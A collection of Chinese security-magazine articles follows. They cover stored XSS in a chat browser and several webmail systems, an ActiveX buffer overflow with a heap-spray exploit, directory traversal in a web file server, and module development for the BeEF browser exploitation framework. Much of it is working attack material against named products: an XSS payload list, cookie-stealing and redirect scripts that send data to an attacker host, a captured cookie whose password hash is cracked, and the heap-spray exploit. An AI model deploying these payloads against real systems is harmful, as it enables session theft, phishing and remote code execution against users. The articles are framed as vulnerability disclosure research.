话说某日，我在网上搜索资料，翻来覆去终于在“上学吧”这个网站找到了，不过需要交 3 元才可以下载，当时想着为了资料，交钱就交钱吧。但这个网站充值金额最小是 10 元，结果一个不留神就充了 50 元，一个对我没用的网站充了 50 元难免心疼。于是联系客服，却死活不退款。昨日，我又再次在这个网站下载了一个 FTP Server 的源码，哪里知道没有提示就扣了 3 元，3 元买一个没有太大价值的源码，觉得很心疼，之后还在这个 FTP Server 源码中发现了很多溢出漏洞，便心有余悸。经过冷静思考，我觉得这种损失应该需要我自己负责，于是再次来到他们的网站，看到了“友评互动浏览器”，决定挖个 0day 换稿费来弥补一下这些损失。

### 漏洞分析

友评浏览器是希赛公司开发的一款互动性比较强的浏览器，可以边浏览网页边与其他浏览相同页面的友评浏览器用户进行互动聊天。目前官方提供的最新版本是 2011 测试版（1.0.7），如图 1 所示。


图 1

在安装友评浏览器成功后，运行浏览器，界面如图 2 所示。


图 2

友评浏览器是基于 IE 内核的浏览器，所以，不用对浏览器内核进行测试，直接从它提供的第三方功能入手。我们从图 2 可以看到，运行浏览器后，界面默认为左右两栏，位于浏览器右边是正常的网页浏览；而位于左边的是互动评论，也是该款浏览器功能的亮点。这个功能是这样的：用友评浏览器浏览任意一个页面，在左边互动评论中可以与其他浏览相同页面的用户进行互动交流。

我们仔细看一看互动的评论显示，在这里显示了一些用户的基本信息：用户名、头像，以及联系方式的链接。很明显所有评论是以 HTML 方式显示的。只要在这里能执行我们构造的任意 HTML 代码，就可以威胁到与我们浏览相同页面的用户。

初步打算将用户名改成 HTML 代码，然后提交评论，看提交的代码是否会被执行。为了证明，我们单击浏览器右下角那一排按钮的第一个按钮，然后弹出“友评聊聊”的登录界面，登录后，单击“友评聊聊”上的头像按钮，弹出“友评聊聊选项”。在“个人设置”里可以设置用户名，这里我先填入 `<script>alert("test")</script>` 并确定资料的修改。

修改资料之后来到浏览器，在左下角评论框中输入任意字符串，并提交。出现“评论失败，请检查网络设置！”的提示，如图 3 所示。


图 3

起初我还真以为是网络问题呢，折腾了半天，结果发现是因为用户名里有非法字符。于是去网上找了个 Escape 加密工具，把 `<script>alert('test')</script>` 转换成字符串后填入用户名中。后来发现用户名输入框限制了长度，于是将 `<script>alert('a')</script>` 加密后输入，才完成输入。

重新提交任意字符串的评论后，发现显示样式有问题，说明 HTML 代码产生了影响。尝试调用 JavaScript 代码或外部脚本均未成功，推测显示时过滤了部分敏感 HTML 标签。随后将 `` 加密后输入用户名并提交评论，代码成功执行，如图 4 所示，黑色大块处即为图片显示区域。

既然 HTML 能成功执行，为什么 JavaScript 不行？翻阅资料后想到 `<iframe>` 标签。于是将 `<iframe src=http://baidu.com>` 加密后输入用户名并提交评论，代码执行成功，如图 5 所示。


图 4


图 5

友评互动浏览器在浏览网页时，可以看到大家在旁边进行互动交流。那么，突然执行一个带恶意代码的 HTML，会威胁到许多用户的安全。

挖掘漏洞和利用漏洞时，思路不能太狭隘。特别是不要只在缓冲区溢出上下手，更不要总是想着找一个远程溢出漏洞，有时其他漏洞也会有很强的杀伤力，比如友评浏览器这次的漏洞，精心利用，足以完成远程攻击。

截至此时，我已经及时联系了官方，在与他们的配合下，友评浏览器团队以最快的速度修补了该次出现的漏洞，这也是我见过修补漏洞最积极、最快速、更是最谦逊的团队。

前置知识：无

关键词：AA、邮件、跨站

## AA Mail Server 电子邮件跨站漏洞


文/图 爱无言

AA Mail Server 是一个简单易用的电子邮件系统，该系统的最新版本是 4.20，其官方网站是 http://www.aamailsoft.com/。在安装 AA Mail Server 的时候，我们首先需要在当前系统中安装好微软的 SQL Server 数据库，当然你也可以不安装该数据库而是采用 AA Mail Server 提供的 Access 数据库，我们这里采用的是 AA Mail Server 自带的 Access 数据库。

AA Mail Server 的 Web Mail 系统采用了与 Windows 系统的 IIS（即 Internet 信息服务）相结合的方法来提供服务，所以，我们的 Windows 系统在安装 AA Mail Server 之前也必须安装好 IIS。

安装好 AA Mail Server 后，我们首先要进行安全测试的地方就是 Web Mail。在此之前，我们需要运行 AA Mail Server 的主程序，在其中设置好新的邮件域名，并且创建一个测试用的邮件账户 test@test.com，如图 1 所示。


图 1

打开 Windows 系统自带的 IE 浏览器，在其地址栏中输入：  
http://127.0.0.1/mail，按 Enter 键访问，如图 2 所示。


图 2

使用 test@test.com 登录 AA Mail Server 的 Web Mail 系统，如图 3 所示。


图 3

我们这里建立一封测试邮件，单击图 3 左侧的“写邮件”链接，浏览器中出现创建测试邮件的窗口，如图 4 所示。


图 4

我们在写邮件的窗口中发现一个有意思的地方，AA Mail Server 的 Web Mail 支持对邮件的 HTML 代码编辑。勾选“Html”复选框，在邮件中插入 JavaScript 代码，如图 5 所示。


图 5

在图 5 中我们看到，在电子邮件中插入了一段 JavaScript 代码 ``。现在，我们发送这封电子邮件给自己，发送成功后，打开该电子邮件，效果如图 6 所示。

## EXPLOIT ATTACK & DEFENCE 漏洞攻防

| 字段 | 内容 |
|---|---|
| 发件人 | "test" <toi@test.com> |
| 收件人 | "test" <tois@test.com> |
| 邮件主题 | （无主题） |
| 邮件日期 | 2011-03-12 08:58:41 |


图 6

如此看来，AA Mail Server 存在典型的跨站漏洞。这个漏洞完全可以用来对邮件系统的用户进行钓鱼攻击或者网页挂马，危害较大。

最后，该漏洞的发现还是比较简单的，这里我们在安装 AA Mail Server 的时候选择的是 Access 数据库，没有选择使用 SQL Server 数据库，我们猜测 AA Mail Server 可能还存在注入漏洞，当然这只是猜测，有兴趣的读者可以自行测试一下。本文技术旨在讨论，不要用本文技术做任何违法事件，作者与杂志概不负责。

前置知识：无

关键词：金笛、遥志、漏洞


## 对金笛邮件系统和遥志邮件系统的跨站脚本漏洞测试

文/图 masepu

近期看了不少关于一些知名邮件系统存在严重跨站脚本漏洞的文章，觉得我以前对跨站漏洞的危害认识非常不够。其实攻击者可以利用网站程序对用户输入过滤不足的缺陷，巧妙地将特定脚本代码加入到可以显示给用户的页面上，从而达到利用身份、盗取资料、访问恶意网站等目的。特别是邮件系统，如果存在跨站漏洞的话威胁很大。因为恶意用户可能会利用电子邮件对某些邮箱用户发送精心构造的包含特定功能的脚本代码，如获得 cookie、访问木马网页、读取本地文件等。从而攻击者可能会取得该邮箱的访问控制权限，用户的邮件信息就会完全暴露给攻击者。带着几分好奇，我打算对国内比较有名的“金笛邮件系统”和“遥志邮件系统”进行一次跨站测试，看看它们的安全性如何，是否已经对这种漏洞进行了有效的防范。

金笛邮件系统是北京春笛信息技术有限公司研发的一套邮件系统，采用 Java 技术，支持 Windows 2000/XP/2003/Linux 等主流操作系统，具有多种功能且使用方便。遥志邮件系统（DBMail）是遥志软件开发的一款基于数据库存储的邮件服务器软件，支持目前所有的 Windows 版本，并且兼容 64 位系统。这两款软件的公司网站上都有不少宣传资料，可以在其成功案例的宣传栏目上看到很多用户名单，包括国务院新闻办公室、国家水利部、江西省水利规划设计院、TCL 集团工业研究院等多家政府机构和知名公司。可见这两款邮件系统软件的应用还是非常广泛的。从其官方网站上下载到这两款软件的最新试用版，在 Windows XP 上安装金笛邮件系统 v3.11 版，用默认管理员 admin、密码 111111 登录，创建一个 test.com 域，并建立测试邮箱。然后通过 WebMail 登录向测试邮箱发送含有跨站脚本的信件。我在网上收集了大量 XSS 的测试代码，打算将这些跨站脚本全部一次性放进去测试，看看哪些脚本能够逃过邮件系统的过滤然后触发。

网上收集的跨站脚本测试代码如下：

<SCRIPT src="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>

```html
<script>alert('XSS')</script>
</script>alert('XSS')</script>
--><script>alert('XSS')</script>
%3Cscript%3Ealert('XSS')%3C/script%3E
<scriPt>alert('XSS')</scriPt>

...（大量 XSS payload 列表）...
<BODY BACKGROUND="javascript:alert('XSS')">
<BODY ONLOAD=alert('XSS')>


<BGSOUND src="javascript:alert('XSS')">
<br size="&{alert('XSS')}">
<LAYER src="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet" href="javascript:alert('XSS');">


<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<IFRAME src=javascript:alert('XSS')></IFRAME>
<FRAMESET><FRAME src=javascript:alert('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image:url(javascript:alert('XSS'))">
<DIV STYLE="behaviour:url(http://www.how-to-hack.org/exploit,html)">
<DIV STYLE="width:expression(alert('XSS'))">
<STYLE>@import'javascript:alert("XSS")';</STYLE>

<STYLE TYPE="text/javascript">alert('XSS')</STYLE>
<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url('javascript:alert("XSS")')}</STYLE>
<BASE href="javascript:alert('XSS');//">
<XML SRC="javascript:alert('XSS');"></XML>
<BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT>

<SCRIPT src="http://xss.ha.ckers.org/a.js"></SCRIPT>
```

在 WebMail 中将发送内容改为 HTML 代码形式，将以上代码粘贴到邮件内容中，然后发送。转到测试信箱的收件箱，单击刚才收到的测试邮件，打开后直接弹出对话框，如图 1 所示。


图 1

说明该系统对最基本的 `<script>alert('XSS')</script>` 脚本语句都没有过滤，存在严重的跨站漏洞。看来金笛邮件系统要重视跨站漏洞的问题了，免得给用户带来损失。再看看遥志邮件系统。由于该系统要求 IIS 环境，因此在 Windows 2003 下进行测试。按照说明将该软件安装好，版本是 DBMail 标准版 4.26。继续添加一个邮件域，并添加测试用户，Web 登录后同样将以上跨站测试代码以 HTML 形式粘贴到邮件正文框中，然后发送。到测试收件箱中查看刚才发来的邮件，弹出 XSS 对话框，存在跨站漏洞，如图 2 所示。


图 2

可以看出，遥志邮件系统同样存在着严重的 XSS 漏洞。值得注意的是，在利用遥志邮件系统发送 XSS 邮件时，应先将内容选择为 HTML 格式，然后再取消 HTML 格式，这样 XSS 代码才能完整发送出去。单独对 `<script>alert('XSS')</script>` 脚本语句做测试，结果一样。看来遥志邮件系统也未对这最基本的脚本语句做过滤。

本来是想这两个邮件系统应该会对基本的脚本语句进行过滤，如果需要成功跨站还需要更高的脚本技巧。没想到基本的 `<script></script>` 脚本语句都没有过滤，看来这两款软件的开发者对 XSS 没有任何防范。如果将刚才脚本中的 `alert('XSS')` 语句换为其他，如窃取 cookie、访问指定木马网页和读取文件等脚本语句，就可以实现更多的攻击。下面我们利用这两个邮件系统的跨站漏洞，模拟进行一些跨站攻击的实验。第一种利用方式是将构造好的跨站脚本邮件发送给目标用户，用户单击该邮件后就会将当前 cookie 等信息传送到指定网站，我们可以尝试利用所获得的 cookie 信息冒充用户登录其邮箱。第二种方式是利用跨站邮件迫使用户浏览器访问指定页面，以此来进行钓鱼或网页木马攻击。

```asp
testfile=Server.MapPath("longker.txt")
msg=Request("msg")
set fs=server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&msg&"")
thisfile.close
set fs=nothing
```

该段代码会将 XSS 邮件发送来的信息存至当前网站目录下的 longker.txt 文件中。其中邮件中的获取 cookie 信息的 XSS 脚本代码如下：

```html
 // 注：此处网址是接收信息的 asp 文件地址
```

先来测试金笛邮件系统，登录测试邮箱，将以上 XSS 代码以 HTML 方式写入邮件正文，单击发送。到收件箱查看这封邮件，结果在服务端 longker.txt 中没有收到信息。看来没能成功获得 cookie。换个思路，获取用户邮箱的当前 URL 试试，脚本代码如下：

```html
<script>document.location='http://192.168.123.138/get.asp?msg='+escape(document.location)</script>
```

利用以上 XSS 代码继续在测试邮箱中发送邮件，查看该邮件后发现 longker.txt 中已经有数据了：

```
http://192.168.123.166/jdwm/temp/8133ff203dac3ce9bacda30cf61ecda39fcae6b0bb941f5a0800b1dc843334e94/mailbox/1302678489777.8c4.1f0.352f.source-8a8370e1/html.html
```

将该数据在其他计算机的 IE 浏览器地址栏内输入后按 Enter 键，发现页面自动跳转了，而跳转的地址为：

```
http://192.168.123.138/get.asp?msg=http%3A//192.168.123.166/jdwm/temp/8133ff203dac3ce9bacda30cf61ecda39fcae6b0bb941f5a0800b1dc843334e94/mailbox/1302678489777.8c4.1f0.352f.source-8a8370e1/html.html
```

仔细观察该地址，发现该地址竟然是我们获取信息的 asp 文件所在地址。这就说明利用该地址我们已经在第三方机器上成功访问了刚才发送的那封 XSS 邮件了。但是这又有什么用呢，尝试将该 URL 后的部分字符串删除，如下所示：

```
http://192.168.123.166/jdwm/temp/8133ff203dac3ce9bacda30cf61ecda39fcae6b0bb941f5a0800b1dc843334e94/mailbox/
```

在第三方主机的 IE 地址栏中输入以上 URL，按 Enter 键后可以看到如图 3 所示的界面。


图 3

单击进入任意链接，发现里面以网页形式存储了用户此次登录后浏览过的邮件数据。估计金笛邮件系统是将用户当次浏览的邮件信息临时存放在网站的一个目录下了，我们利用该 URL 就可以直接访问了。经测试，在用户没有退出当前邮箱时，我们可以通过这种方式浏览用户此次浏览的所有邮件。看来我们虽然获取 cookie 失败，但是利用其当前 URL 同样获得了用户的敏感信息。

继续针对遥志邮件系统展开以上测试。第一步还是针对 cookie。通过以下脚本获得 cookie：

```html

```

先后构造 XSS 信件并发送，在 longker.txt 中收到如下 cookie 数据：

```
ck_stuAccount=dbmaili@local.com; ck_stuAccPrefix=dbmaili; ck_srfPassword=96e79218965eb72c92a549dd5a330112; ck_bRemember=1; ck_stuDomain=local.com; ck_strCurPassword; ASPSESSIONIDAARSDQST=MPNIHGJEMBGMGIEFPKIDCIKH
```

用 cookie 欺骗浏览器导入该 cookie 访问遥志邮件服务器，并不能成功登录，不知为何。但经仔细观察所获得的 cookie，发现其中包含账户加密密码等信息。第一感觉是 96e79218965eb72c92a549dd5a330112 这一串加密密码很像是 MD5 加密的，先通过 MD5 解密网站尝试一下，密码竟然成功破解，如图 4 所示。


图 4

看来利用所获 cookie 直接登录遥志邮件系统失败，但是还可以利用获得的 cookie 中的 MD5 密码串来破解密码。特别是现在网上有很多高效的 MD5 破解网站，对常见密码的破解成功率还是很高的。

关于利用 XSS 获取 cookie 等信息的测试就告一段落，我们针对这两个邮件系统再试试 XSS 自动访问钓鱼网站和网页木马的情况。利用脚本自动访问网页的测试代码如下：

```html
<SCRIPT>document.location="http://www.sohu.com"</SCRIPT>
```

利用测试账户登录金笛邮件系统，利用以上代码构造 XSS 邮件，发送并单击查看，发现用来显示邮件正文的框架自动跳转了。但是这样的钓鱼并不完美，最好能整个 IE 页面全部跳转，因此更换以下代码继续测试：

```html
<SCRIPT>parent.location.href="http://www.sohu.com"</SCRIPT>
```

效果如图 5 所示。


图 5

跳转的测试页面还是在框架中，只不过上一次跳转的框架上了一层了。改用以下代码继续尝试：

```html
<SCRIPT>parent.parent.location.href="http://www.baidu.com"</SCRIPT>
```

效果不错，如图 6 所示。这次实现了全页面跳转，且地址栏内还显示的是邮件系统的地址。如果这是伪造的钓鱼页面，那么将非常有欺骗性。

和访问网页木马的脚本原理一样，这里就不再赘述了。威胁更大。


图6

图7

```html
<SCRIPT>document.location = "http://www.baidu.com"</SCRIPT>
```

采用代码对遥志邮件系统进行自动访问钓鱼网页测试，同样成功跳转到指定网址，如图7所示。

```html
<SCRIPT>parent.location.href="http://www.baidu.com"</SCRIPT>
```

换成上述代码，单击信件后整个页面跳转到 baidu 了。如果将百度换为钓鱼网站，用户很难发现。可以看出，利用 `parent.location.href` 这样的语句可以将整个页面转到指定网页上，而不像 `document.location` 只能是网页中的一个框架内的跳转。我觉得这样的强行跳转欺骗性更强，威胁更大。

至此，我们对金笛和遥志两个邮件系统的跨站脚本漏洞已经有了一个大概的了解。希望开发人员能够对 XSS 重视起来，因为对于邮件系统来说，用户的数据安全是最重要的，一个 XSS 漏洞足以构成严重威胁了。本文对以上系统的跨站邮件测试均在 Windows XP 的 IE 6.0 下进行。金笛邮件系统安装在 Windows XP 下进行测试。由于需要 Web 服务环境，遥志邮件系统安装在 Windows 2003 下进行测试。

- 前置知识：无
- 关键词：飞天诚信、溢出、0day

## 首发北京飞天诚信科技有限公司终端用户控件远程溢出 0day


文/图 爱无言

北京飞天诚信科技有限公司是国内一家知名的 IT 公司，该公司涉及的产品我以前听说过。在最近的一些安全测试中，我有幸再次接触到了该公司的产品，其中一些产品涉及金融方面。这一次，在我的测试中的目标程序是一个叫做“WebDllPersonal.dll”的 ActiveX 控件。该控件是一个可以被浏览器加载的 ActiveX 控件，主要使用在金融方面。我们首先使用 ComRaider 程序来获取“WebDllPersonal.dll”控件的信息，如图1所示。


图1

从图1中我们看到该控件注册了6个外部接口，即 ChangeUserPin、GetCertSN、IsHaveInstalled、StorePIN、VerifyUserPin、VerifyUserPin1。我们先来看一看 IsHaveInstalled 外部接口，它的函数原型为：

```vb
Sub IsHaveInstalled(
    ByVal strProductName As String
)
```

该接口只有一个参数，是一个字符串参数，所以我们可以测试一下该外部接口在处理过长的字符串时会不会出现溢出现象。

为了测试该外部接口，我们需要写一段测试网页代码，代码如下：

```html
<object classid="clsid:6CF4C18B-D93D-4866-9A80-8E87AB491057" name="evil"></object>
<script>
var a=Array(10000)
evil.IsHaveInstalled(a)
</script>
```

在上述这段网页代码中，我们设置了一个长度为10000个字符的变量 a，将该变量作为参数传递给了被测外部接口 IsHaveInstalled，如此长的参数，不知道会出现什么效果。

保存该测试网页代码为 test.htm 文件，并且将该文件上传到我们的测试 Web 服务环境中。现在打开浏览器（IE6.0，Windows XP SP3），在浏览器中输入 test.htm 的网址并访问。我们惊奇地发现，在按 Enter 键的那一瞬间，浏览器崩溃了！

难道说，IsHaveInstalled 真的存在严重的溢出漏洞？启动 OllyDbg 程序，利用该程序挂接 IE6.0 浏览器进程，我们需要知道在浏览器发生崩溃时，到底出现了什么错误。

现在重新访问 test.htm，终于看到了出现错误的原因，如图2所示。


图2

图2中显示的画面是常常见到的，这是典型的溢出漏洞发生时的画面，此刻已经证明了漏洞的存在，我们借助 heapspray 技术已经可以利用该漏洞了。但是，在此之前，我们还需要知道漏洞是怎么发生的。

重新运行 OllyDbg 程序，跳转到函数 DispCallFunc 部分，因为该函数是系统调用 ActiveX 控件的关键函数，所以在该函数上不断点我们就可以跟进出错的外部接口 IsHaveInstalled。

在函数 DispCallFunc 部分中，我们在该函数第一次出现的 call ecx 指令下断点后，运行浏览器进程，同时访问 test.htm 网页。此刻，OllyDbg 发生了中断，如图3所示。


图3

断点发生后，按 F7 键进入 IsHaveInstalled 函数，如图4所示。


图4

在这个函数中，我们看到了一些敏感的字眼，其中“sub esp, 104”是开辟一个栈空间，“104”即260个字节。这个有限的空间，却用来在后期装入我们传递的参数 a，难怪会发生溢出漏洞。

现在知道了漏洞发生的原因，我们就可以利用该漏洞了，基本的利用代码如下所示。

```html
<object classid="clsid:8BE80FD3-B35E-CD48-1179-1B592DBEDDA7" name="evil"></object>
<script>
var heapSprayToAddress = 0x20202020;
var shellcode = unescape("（这里放入shellcode）");
var heapBlockSize = 0x400000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
var spraySlide = unescape("%u0505%u0cbd");
spraySlide = getSpraySlide(spraySlide, spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;
memory = new Array();
for (i=0; i<heapBlocks; i++) {
  memory[i] = spraySlide + shellcode;
}
var a = Array(10000);
evil.IsHaveInstalled(a);
function getSpraySlide(spraySlide, spraySlideSize) {
  while (spraySlide.length * 2 < spraySlideSize) {
    spraySlide += spraySlide;
  }
  spraySlide = spraySlide.substring(0, spraySlideSize/2);
  return spraySlide;
}
</script>
```

- 前置知识：无
- 关键词：Web、易用、越权

## 挖掘易用 Web 文件服务器
### 目录访问漏洞

文/图 爱无言


在翻阅最近下载的一些软件时，无意间发现一个 Web 服务软件非常有意思，该软件名为“易用 WEB 文件服务器”。从体积上看该软件也不大，不到 4MB。该软件的说明上告诉我们“本软件旨在快速架设 Web 文件服务。使用本软件无须安装 IIS 组件，也无须‘花生壳’服务，只要将要发布的文件或文件夹拖入列表并设置好端口，然后将获取的外网 IP 告知好友，就可以进行 Web 文件共享，简单快速地将自家电脑架设成一台文件服务器”。这种简易的 Web 服务程序现在越来越受到更多网友的喜爱，原因就是安装使用方便，尤其是绿色版本的软件。还有一个原因，Windows 系统下使用安装的 IIS，经常被曝光有这样那样的安全漏洞，这也遭到很多网友的排斥，于是，简易的 Web 服务程序开始有了市场。但是，简易不代表安全，今天我们就一起来试一试，看能不能挖掘出这款“易用 WEB 文件服务器”软件的安全漏洞。

我们这里测试的“易用 WEB 文件服务器”软件版本为 2.11，解压该软件到本地任意文件夹中，直接双击运行其中的“易用 WEB 文件服务器 2.11.exe”程序，如图1所示。


由于“易用 WEB 文件服务器”属于利用 Web 形式共享文件的软件，所以在使用该软件的时候，第一步需要设置一个被共享的文件目录。单击“图1”中的“添加列表文件或文件夹”按钮，设置一个文件目录成为共享目录，如图2所示。


选择好被共享的目录之后，会出现一个设置密码的对话框，如图3所示。


在这里我们可以按照一般人的思想，设置一个密码，这里输入的密码为“123456”，然后单击“确认输入”按钮。设置好共享目录以及共享目录密码后，我们就可以启动服务了，单击图1中的“启动服务”按钮，如图4所示。


图4

现在用浏览器访问软件共享的网址或者直接单击图4中的“浏览器打开”按钮，浏览器将打开共享网址，如图5所示。


图5

此刻，我们可以看到被我们共享的文件目录名称为“office 2007”。如果此刻用户想要访问这个共享目录，需要单击图5右侧的“打开”链接，系统将要求输入共享密码，也就是我们前面设置的那个“123456”，如图6所示。


图6

在图6的输入框中输入“123456”，单击“确定”按钮，我们看到了被共享文件目录的所有文件，并且获得可以打开或者下载的权限，如图7所示。

直到此刻，我相信读者都没有察觉到有什么不对，这个过程看起来非常正常。可是，试想一下，我们设置一个共享目录给其他人访问，并且设置访问密码，目的就是要其他人员能访问这个被我们共享的目录，但是，如果其他人能够借助该软件访问到我们计算机上所有的文件时，你会不会觉得有点害怕。现在，我们就来看一看能不能实现跨越目录访问共享目录之外的内容。

测试很简单，还是回到图7的浏览器窗口中，在这个时候，我们看到浏览器中的网址格式为：`http://192.168.1.10:8000/index.htm?E%3A%5Coffice%202007`。在这个网址的最后部分是一段有意思的代码“E%3A%5Coffice%202007”，我相信大家都明白这段代码的意思，它代表的就是被我们设置为共享目录的文件目录全名。如果我们现在修改这个目录全名，因为从网址上看，这个目录全名是被当作参数来传递给 index.htm 文件的，所以修改这个目录全名就很有可能实现跨越目录。在修改的时候请大家注意，我们必须按照编码要求输入网址，即将跨越目录的代码“../”编码为“%2E%2E%5C”。修改后的网址为：`http://192.168.1.10:8000/index.htm?E%3A%5Coffice%202007%5C%2E%2E%5C`。在浏览器中再次访问这个网址，惊人的一幕发生了，如图8所示。


图7


图8

没有想到，一个简单的编码测试就能够实现跨越目录的访问，这就破坏了安全规则，加大了软件使用者的危险。谁能想到自己在共享文件的时候，竟然等于将自己的计算机都共享出去，一切隐私都曝光了！

该漏洞的测试比较简单，但是却是一个典型安全漏洞的测试过程，读者可以由此联想到其他类似软件的安全漏洞测试。该漏洞也属于首发，希望软件作者能够及时修补该漏洞，读者也不要利用该漏洞进行任何违法行为，作者与杂志概不负责。

- 前置知识：无
- 关键词：BeEF、人人网、XSS

## 基于 BeEF 的人人网 XSS 运用


文/图 邪公子

针对浏览器的渗透平台有很多，比较不错的一款是国外 Wade 等开发的 BeEF 浏览器渗透平台，其已经集成到 BackTrack 系统 Web 渗透类。BeEF 是一款浏览器渗透平台，主要攻击手段是通过跨站攻击从而短暂获取用户浏览器控制权，进行各种模块的操作。暂时我看到的最新版的平台将攻击模块主要分为三大块：标准模块、浏览器模块、网络模块（standard modules, browser modules, network modules）。在标准模块中，用户可以进行一些基本的操作，如获取用户 cookie 信息等；网络模块主要是针对网络的一些操作，如可以对内网进行扫描等；个人感觉最好的是在浏览器模块，因为其接入到了 MSF 平台，可以运用 MSF 平台的漏洞库进行渗透测试。该项目成立比较早，大概在 2006 年，国内也有该类平台的开发，是 auli5 在 codegoogle 的“翻转雅典娜”项目，该项目成立于 2008 年，到现在也应该具备成熟的框架了，我记得测试过其 DEMO 站，但是在 codegoogle 没找到源代码下载。

以前我们可能发现一个跨站漏洞的时候，知道其有危害，但是没有考虑到该漏洞危害的严重性，而且更多的时候，我们也可能局限于即时性。但是通过该平台，可以实现和客户端的即时交互，这样的话，跨站攻击的危害性将可以通过该平台得到扩大。

我尝试去寻找 BeEF 平台的开发文档，但是在官方网站和 codegoogle 都没有发现其模块的开发文档，于是就尝试进行了简单分析，然后开发个人模块。

首先，我们可以从 http://bindshell.net/tools/ 下载到 BeEF 的最新版本，在本地搭建平台测试，目录如图1所示。


图1

其中“cache”目录主要生成日志临时文件，“css”就不说了，“hook”里包含比较多的重要文件，如我们跨站攻击的利用代码等。“include”包含了主要 PHP 函数，“js”包含主要的 JS 文件，然后是 modules 文件夹，这个地方各个模块将作为插件一样被加载。我们简单看一下如图2所示的目录。


图2

该目录包含三大模块，browser、network、standard，各个目录下又包含小模块。ui 目录是主要显示文件。首先，我们进行安装，密码在 pw.php 文件中，我们可以进行修改，如图3所示。


图3

单击“Apply Config”按钮，将显示安装成功。这里建议大家测试的时候使用 80 端口，因为它的程序中有点小问题，如果你使用的不是 80 端口，安装成功后将不能正确跳转到 ui 目录，同时 modules 下的文件也不能正常使用。如图4所示为主界面。

该文我们主要做 standard modules 模块即标准模块下小模块的开发，首先，我们看一下该模块类型，如图5所示。


图4


这个函数会去获取三大模块下的模块名称，并返回结果 `$result`，以下是上面函数中部分全局变量的定义：

```c
define(MODULE_NAME_FILENAME, "name.txt");
```

从这里我们可以看出模块名称是从 name.txt 文件中获取，可以看到每个小模块目录下都会有一个 name.txt 文件。我们在 beef\modules\standard 下建立 test 目录，建立一个 name.txt 文件，写入 test，然后刷新主页，如图8所示。


图5

可以看到 standard modules 模块下已经包含了很多小模块，我们的目的就是在模块下添加一个获取用户 cookie 的简单模块。更多复杂的操作可以参考 gnucitizen 下的 attackapi 项目，项目地址：http://code.google.com/p/attackapi。

首先我们对代码进行分析，就从最简单的 alert Dialog 模块入手。首先，通过 ui 目录下的 index.php 分析，发现其显示菜单目录函数 get_standard_module_menu，如图6所示。


图6

我们通过这个入口一步一步跟下去，研究程序框架。get_standard_module_menu 函数在 include 目录下的 ui_module.inc.php 文件中定义，如图7所示。


图7

get_module_menu 函数，我们通过 grep 可以发现其在 include\ui_module.inc.php 文件中定义。

```php
function get_module_menu($module_dir, $module_subdir){
    $result = '';
    $wildcard = $module_dir ...
    foreach (glob($wildcard) as $dirname) {
        // ...
    }
}
```


图8

我们可以看到在菜单最下面显示了刚添加的模块 name。单击主显示窗会自动转到 test 目录下，如图9所示。


图9

下面我们研究一下 alert 下的 index.php 文件，该文件用于模块的显示和配置，如图10所示。


图10

index.php 主要包括三个部分，首先是包含需要的全局变量和函数：

```php
<?
require_once('../../../../include/common.inc.php'); // included for get_b64_file()
DEFINE('JS_FILE', './template.js');
?>
```

然后是 JavaScript 代码：

```html
<script>
get_b64_code_alert = function() {
  var b64code = "<? echo get_b64_file(JS_FILE); ?>";
  b64code = b64replace(b64code, "ALERTSTRING", document.myform.alert_str.value);
  b64code = b64replace(b64code, "RTN", "Alert Clicked");
  return b64code;
}
Element.Methods.set_autorun = function() {
  ar.enable('Alert Dialog', get_b64_code_alert())
}
Element.Methods.send_now = function() {
  do_send(get_b64_code_alert());
}
Element.addMethods();
</script>
```

最后是用于显示的 HTML 代码，显示效果如图 11 所示。

```html
<div id="module_subsection">
  <form name="myform">
    <div id="module_subsection_header">String</div>
    <input type="text" width="90%" name="alert_str" value="BeEF Alert Dialog"/>
    <input class="button" type="button" value="Set Autorun" onClick="javascript:set_autorun()"/>
    <input class="button" type="button" value="Send Now" onClick="javascript:send_now()"/>
  </form>
</div>
```


图 11

当我们进行操作配置的时候，会触发 JavaScript 代码，如我们发送 alert 的时候，会触发 send_now()：

```javascript
Element.Methods.send_now = function() {
  do_send(get_b64_code_alert());
}
```

我们从上面找一下 get_b64_code_alert()：

```javascript
get_b64_code_alert = function() {
  var b64code = "<? echo get_b64_file(JS_FILE); ?>";
  b64code = b64replace(b64code, "ALERTSTRING", document.myform.alert_str.value);
  b64code = b64replace(b64code, "RTN", "Alert Clicked");
  return b64code;
}
```

get_b64_file 定义如下：

```php
function get_b64_file($file) {
  $raw = file_get_contents($file);
  $result = base64_encode($raw);
  return $result;
}
```

函数中 JS_FILE 在 `DEFINE('JS_FILE', './template.js')`，我们可以看到整体流程：单击 send，触发 send_now，然后调用 get_b64_code_alert 获取当前目录下的 template.js 文档，然后对 alert 警告进行匹配转换，接着将 JavaScript 代码发送出去，发送到 do_send，定义如下：

```javascript
function do_send(code) {
  z1.send_code(code);
}
```

z1 是个 new 实例，我们 grep 一下 send_code，发现定义如下：

```javascript
send_code: function(code) {
  if(!this.selected_zombies.length) {
    beef.error('No Zombie Selected. Select zombie(s) in the sidebar');
  }
  // work-around for bug in Ajax.Updater
  if((decode64(code).length % 3) == 1) {
    tmp_code = decode64(code);
    tmp_code += " ";
    code = encode64(tmp_code);
  }
  this.selected_zombies.each(function(id) {
    var params = 'data='+code;
    new Ajax.Updater('module_status','send_cmds.php?action=cmd&zombie='+id,
      {method:'post', parameters:params, asynchronous:false});
  });
}
```

发现最后会将参数传入到 send_cmds.php 文件。其中 action 为 cmd，zombie 代表我们选择的僵尸机器 ID，参数为我们的 JavaScript 代码。我们看一下 send_cmds.php 程序。

```php
case "cmd": // command
  if(!isset($_GET["zombie"])) beef_error('no zombie');
  $zombie = $_GET["zombie"];
  $b64code = $_POST["data"];
  $code = build_base64_code($b64code);
  send_module_code($zombie, $code);
  beef_log("Module code sent!", "Zombie at ".get_zombie_ip($zombie)." got code:\n".$code);
  echo "code sent";
  break;
```

